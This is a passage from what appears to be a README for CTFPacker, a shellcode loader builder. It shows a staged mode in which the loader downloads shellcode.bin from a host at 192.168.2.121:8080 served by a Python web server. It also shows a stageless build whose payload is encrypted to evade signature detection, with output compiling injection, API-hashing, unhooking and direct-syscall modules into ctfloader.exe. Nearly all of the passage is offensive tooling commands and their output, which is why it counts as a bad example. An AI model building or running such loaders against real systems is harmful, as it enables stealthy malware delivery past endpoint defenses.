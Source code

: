 With this command, your telling the loader to connect to the `192.168.2.121` IP, at port `8080` and download the `shellcode.bin` file. So you should serve this file via a webserver.

```powershell
C:\Code\CTFPacker\CTF Packer>ls
shellcode.bin

C:\Code\CTFPacker\CTF Packer>python -m http.server 8080
Serving HTTP on :: port 8080 (http://[::]:8080/) ...
```

### Stageless

This is fairly simple. The shellcode will be included into the loader. I recommend you to use the encryption arg `-e`. Otherwise the signature-based detection will likely catch it.

```powershell
C:\Code\CTFPacker>ls
core  custom_certs  main.py  requirements.txt templates

C:\Code\CTFPacker>python main.py stageless -p "C:\Code\CTFPacker\calc.bin" -e -s



 ▄████▄  ▄▄▄█████▓  █████▒██▓███   ▄▄▄       ▄████▄   ██ ▄█▀▓█████  ██▀███
▒██▀ ▀█  ▓  ██▒ ▓▒▓██   ▒▓██░  ██▒▒████▄    ▒██▀ ▀█   ██▄█▒ ▓█   ▀ ▓██ ▒ ██▒
▒▓█    ▄ ▒ ▓██░ ▒░▒████ ░▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▒███   ▓██ ░▄█ ▒
▒▓▓▄ ▄██▒░ ▓██▓ ░ ░▓█▒  ░▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒▓█  ▄ ▒██▀▀█▄
▒ ▓███▀ ░  ▒██▒ ░ ░▒█░   ▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄░▒████▒░██▓ ▒██▒
░ ░▒ ▒  ░  ▒ ░░    ▒ ░   ▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒░░ ▒░ ░░ ▒▓ ░▒▓░
  ░  ▒       ░     ░     ░▒ ░       ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░ ░ ░  ░  ░▒ ░ ▒░
░          ░       ░ ░   ░░         ░   ▒   ░        ░ ░░ ░    ░     ░░   ░
░ ░                                     ░  ░░ ░      ░  ░      ░  ░   ░
░                                           ░



        Author: mocha
        https://mochabyte.xyz

[i] Stageless Payload selected.
[+] Starting the process...
[+] Template files modified !
[i] Encryption selected.
[+] Encrypting the payload...
[+] Payload encrypted and saved into payload[] variable in main.c !
[i] Scrambling selected.
[+] Scrambling the loader...
[+] Loader scrambled !
rm -f *.o *.obj ctfloader.exe
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c api_hashing.c -o api_hashing.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c inject.c -o inject.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c main.c -o main.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c unhook.c -o unhook.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c whispers.c -o whispers.o
nasm -f win64   whispers-asm.x64.asm -o whispers-asm.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -o ctfloader.exe api_hashing.o inject.o main.o unhook.o whispers.o whispers-asm.o -Wl,--disable-auto-import -s -lwinhttp -lntdll
[+] Loader compiled !
[+] DONE !

C:\Code\CTFPacker>ls
core  ctfloader.exe  custom_certs  main.py  requirements.txt  shellcode.bin  templates
```
